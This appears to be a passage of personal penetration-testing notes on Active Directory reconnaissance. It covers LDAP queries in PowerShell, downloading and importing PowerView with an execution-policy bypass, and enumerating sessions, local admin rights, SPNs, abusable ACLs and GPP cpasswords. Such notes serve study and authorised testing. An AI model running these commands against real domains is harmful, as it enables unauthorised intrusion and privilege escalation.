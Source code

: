 ```powershell
    $DirectorySearcher = New-Object System.DirectoryServices.DirectorySearcher($DirectoryEntry, $LDAPQuery)
    return $DirectorySearcher.FindAll()
}
(LDAPSearch -LDAPQuery "(cn=*robert*)").properties
$sales = LDAPSearch -LDAPQuery "(&(objectCategory=group)(cn=Sales Department))"
$sales.properties.member
(LDAPSearch -LDAPQuery "(&(objectCategory=group)(cn=*domain admin*))").properties.member
LDAPSearch -LDAPQuery "(objectCategory=computer)"
```

- users who have not changed their password since the last password policy change, can have a weaker password than the required by the last policy

- PowerView: powershell functions to enumerate AD
```powershell
curl.exe -LO https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1
powershell -ep bypass
Import-Module .\PowerView.ps1
```
- powerview: get computer and domain infos
```powershell
Get-NetComputer | select operatingsystem,dnshostname
Get-NetDomain
Get-NetUser | select cn,pwdlastset,memberof
Convert-SidToName S-1-5-...-1104
```

- find if current user is a local admin in any domain machine
    * powerview: `Find-LocalAdminAccess`

- check authenticated users
    * powerview: `Get-NetSession -ComputerName $TARGET`
    * sysinternals: `PsLoggedOn \\target`

- SPN (service principal name) 
    - it is a identifier that kerberos uses to associate a service with an account in AD
    * listing spns with powerview: `Get-NetUser | select samaccountname,serviceprincipalname`
    * listing SPNs of an specific account: setspn.exe -L iis_service

- ACLs misconfigurations
    - An access control list (ACL) is a list of access control entries (ACE)
    - some interesting permissions to check:
        * GenericAll: Full permissions on object
        * GenericWrite: Edit certain attributes on the object
        * WriteOwner: Change ownership of the object
        * WriteDACL: Edit ACE's applied to object
        * AllExtendedRights: Change password, reset password, etc.
        * ForceChangePassword: Password change for object
        * Self (Self-Membership): Add ourselves to, for example, a group
    - powerview: `Find-InterestingDomainAcl | select ObjectDN,IdentityReferenceDN,ActiveDirectoryRights | ? {$_.IdentityReferenceDN -notmatch "DnsAdmins"} | Format-List`

- Group Policy Preferences (GPP) can contain passwords because they are often used to change local workstation passwords
    - GPP-stored passwords are encrypted but the key is public
        - `gpp-decrypt` can be used to decrypt (cpassword)
